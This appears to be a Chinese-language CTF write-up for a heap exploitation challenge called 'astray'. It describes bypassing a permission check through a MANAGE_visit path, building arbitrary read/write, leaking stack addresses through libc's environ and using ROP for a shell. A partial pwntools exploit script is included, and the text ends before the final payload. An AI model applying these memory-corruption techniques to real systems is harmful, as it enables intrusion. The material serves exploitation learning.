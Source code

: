 ### 思路分析

#### 通过MANAGE_visit

因为直接使用两个write都过不了检测，但是我们使用manage_visit 可以轻松过check，只要heap2不为空。也就说，只要在usr中，过check赋值，就可以在manage中读写。那么我们进入usr_operation,输入MANAGE_visit，就可以过check赋值，而且不做读写操作。此时heap2[0]=heap_addr.
再从manage_operation中读，可以读到pie和堆的地址信息。再写，就可以覆盖heap1 中 的内容。如果选择覆盖heap1+0x8，那么下次准备往目标写的时候，这个位置又会被覆盖掉。
所以，只能通过heap1+0x10的位置来完成任意地址读写。我们把改写后的地方称为fake_addr(位置与&onlyuser位置重合),那么我们之后从manage中访问到的就是** (fake_addr+0x8).

![image-20250805013545343](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250805013545343.png)

#### 任意地址读写

这样看就清楚很多，如果我们把heap1+0x10 修改为 heap3-8，那么我们可以通过manage_write,修改* (magnage_physic[2*i])，继而通过manage_visit,去任意地址读写。

#### 泄露stack，再rop

有读写，泄露的思路自然不用多说。那最后如何getshell呢？保护机制全开，不能修改got，排除syscall和 shellcode ，那就只能rop了，所以还要泄露栈地址。通过libc中的environ泄露栈地址，这个地址与返回地址的偏移动调直接看就行。

### exp

```python
from esy import *
context.log_level='debug'
#context.terminal=['tmux','splitw','-h','-l','66%']
io,elf=loadfile("./astray")
libc=ELF("./libc.so.6")

#manager=0x41A8
# 0x4060
pop_rdi=0x2a3e5
ret=0x29139
def manager(op,idx):
    io.recvuntil("Which permission do you want to log in with?(1:manager 1000:user)")
    io.sendline(str(1))
    io.recvuntil("visit user(MANAGER_visit)\n")
    io.send(op)
    io.recvuntil("1-19: manager can visit\n")
    io.sendline(str(idx))

def user(op,idx):
    io.recvuntil("Which permission do you want to log in with?(1:manager 1000:user)")
    io.sendline(str(1000))
    io.recvuntil("user write to logs(USER_write)\n")
    io.send(op)
    io.recvuntil("10-19: user can visit\n")
    io.sendline(str(idx))
 
def manager_read():
	manager("MANAGER_read","1")
	
def manager_write(content):
	manager("MANAGER_write","1")
	io.send(content)
	
def manager_user_read():
	manager("MANAGER_visit",1)
	io.sendlineafter("to user_logs\n","1")
	
def manager_user_write(content):
	manager("MANAGER_visit",1)
	io.sendlineafter("to user_logs\n","2")
```